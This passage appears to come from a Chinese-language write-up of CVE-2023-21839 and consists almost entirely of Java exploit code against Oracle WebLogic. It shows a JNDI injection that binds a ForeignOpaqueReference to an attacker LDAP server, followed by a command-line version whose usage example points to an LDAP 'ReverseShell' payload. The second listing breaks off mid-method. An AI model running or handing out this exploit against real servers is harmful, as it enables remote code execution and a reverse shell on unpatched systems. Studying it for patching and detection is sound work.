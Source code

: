 ```java
    }
    //iiop
    public static void main(String args[]) throws Exception {
        InitialContext c=getInitialContext("t3://172.23.a.b:7001");
        Hashtable<String,String> env = new Hashtable<String,String>();

        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference f=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(f,"ldap://172.23.c.d:1389/Basic/Command/calc");
        c.bind("aaa120",f);
        c.lookup("aaa120");

    }

}
```



大佬写的改版的：

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;
import java.util.Random;

public class CVE_2023_21839 {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    static String HOW_TO_USE="[*]java -jar 目标ip:端口 ldap地址\ne.g. java -jar 192.168.220.129:7001 ldap://192.168.31.58:1389/Basic/ReverseShell/192.168.220.129/1111";

    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
    public static void main(String args[]) throws Exception {
        if(args.length <2){
            System.out.println(HOW_TO_USE);
            System.exit(0);
        }
        String t3Url = args[0];
        String ldapUrl = args[1];
        InitialContext c=getInitialContext("t3://"+t3Url);
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        weblogic.deployment.jms.ForeignOpaqueReference f=new weblogic.deployment.jms.ForeignOpaqueReference();
        Field jndiEnvironment=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
```